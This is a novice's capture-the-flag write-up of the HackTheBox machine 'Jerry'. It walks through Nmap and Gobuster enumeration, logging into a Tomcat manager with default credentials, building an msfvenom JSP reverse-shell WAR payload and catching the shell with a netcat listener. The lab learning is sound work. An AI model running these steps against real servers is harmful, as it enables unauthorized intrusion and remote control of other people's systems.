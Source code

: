 # About me

Welcome all to my ``Offensive Security`` journey and first ever write up.
I have been active on ```HackTheBox``` and `Tryhackme` since December 2020.
However I have only been able to work on few  machines during the last two years while learning about ```Info-Sec``` fundamentals on ```TryHackMe``` and others few online platforms, also while I completed my degree.

Before we dive in the write up  for the first machine I Pwned that is```Jerry``` ,it's important to note that prior rooting the first machine on ```Hackthebox``` I had quasi zero experience in ``Hacking`` neither in infornation security. Since then, I have been on mission to learn more about information Security. I then dedicated myself to pursue knowledge in this interesting field.

If you are new to ```Cyber Security```, there are many platforms out there that can help you get the knowledge.
As of now I am still a learner and I believe in this industry ```Learning don't Stop```. I am currently going for my first certification that is the ```eJPT``` from ```Elearnsecurity```. in the next step I would be taking you through how I hacked my first machine on Hackthebox.

# Jerry


![ping](https://user-images.githubusercontent.com/61636217/175174375-06a23643-f5d6-4390-a405-267d623c635b.png)




From the ping command we can identify that our target machine runs on ```Windows OS``` by looking at the ```TTL(Time to live)``` response. This a trick that I learned from some of the big names I watched sovling boxes on Youtube like ```ippsec```, ```hackersploit``` and the ```Ofefensive Security (S1REN)``` my Favorite to Hackers to watch.
Here We have pinged the machine and it echoed back to us.
Now we will proceed on scanning for open ports and enumerate all services running on our target machine.

To discover what services are currently running on the target machine, I used ```Nmap``` however there other tools that can give you the same output as ```nmap```.


# Enumeration with Nmap


```Nmap -sC -sV -T4  -Pn <IP Address> -oN <outputfile>```

```sC``` is for default scripts scan.
```sV``` is for version of the services runnimg.
```T4``` is the speed of the scan. not that, this method is crucial because you don't want to make to much noise in the network traffic so declaring a speed of four the best you need for a fast scan.
```oN``` is redirect that fouding into a file. This you would nao

![scan](https://user-images.githubusercontent.com/61636217/173915915-977a8bd6-0ef2-4280-8b91-0ac00db0a277.png)

# Enumeration with Gobuster

After we have ran the ```Nmap``` command we have discovered that there is 2 open ports on our target machine.

```22``` & ``8080``. We noticed that a Tomcat is running on that machine.
Before going deep in the attack we must first try enumerate some port on port 8080 to find out what directory are hosted in the application adn for that I ran ```Gobuster``` for directory discovery.

``` gobuster dir --url  http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```
we discover an interesting directory ```Manager```.
From this step there are differents way you can plan your attack. Here We are going to exploit a misconfigure Tomcat Server.
by default All Tomcat creds are ```tomcat``` & ```s3cret```. but there are other ways to get creds.Navitgating to that Manager directory on port 8080 we prompted with sign in option. to get creds the easy way is the hit the ```cancel``` button and you will redirected to a ```401 Unauthorized``` that display the credentials in plain text. Or you can use ``Metasploit`` to run an exploit against Tomcat server to get the credentials.

# Attack

![8080](https://user-images.githubusercontent.com/61636217/175167658-cc992ea4-6978-43ab-ad94-e186c93ab26d.png)

![signin](https://user-images.githubusercontent.com/61636217/175167703-d26fcaa2-e862-45e8-ae76-ed85f98c9fda.png)


![creds](https://user-images.githubusercontent.com/61636217/175167731-af77b831-5f62-4c9a-b87a-d3bd4ad4ba48.png)

![manager](https://user-images.githubusercontent.com/61636217/175167776-b4adf04a-afc3-4998-b984-2b408783d7aa.png)

Looking at that last picture after we have successfully logged in the application we see that we have an option to upload a war file.
This is our point of entry to the system. Back on my console I created a war file payloads with ```msfvenom``` to get a reverse shell.
the command I ran ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f <File_extension> -o <file_output.war>```
I then had my payload ready to get uploaded on the target application with a listener that I had ready to receive connection from our targer after we have executed tha file that we uploaded on the server. the command was ``nc -lnvp <Port>``.

# Getting a SHELL

![shell](https://user-images.githubusercontent.com/61636217/175169884-bacaa480-f6a3-480a-96d8-db75e03d506a.png)

Our payloads executed well and gave us a shell. We then proceed to navigate our in the target system to retreive the flags.

# Flags


![flags](https://user-images.githubusercontent.com/61636217/175169915-39c55c4d-b7a1-408e-926f-4c42c5990559.png)

For this machine we did not need to escalated our privileges  to get the root flag because we had the ``` Two for one ``` flags in one file.
This was Pwned machine on ```Hackthebox``` it is a realistic as Apache Tomcat server which is often found configured with weak credentials.


# End
Stay tune for more content to come on my journey. Note that hacking is very complexe and therefore you must have strong understanding of how networks servive work to be able to find the right approach to compromised your target.

# Disclaimer.

Per law Hacking is strickly illigal. You must have written permissions to contact this type of activities. Faillure to do may result you being in hot waters with the Law. There are tons of platforms online that can give you the opportunity to learn these skills and practice them on misconfigure machine that they provide. Get the knowledge and  get authorization to hack. 


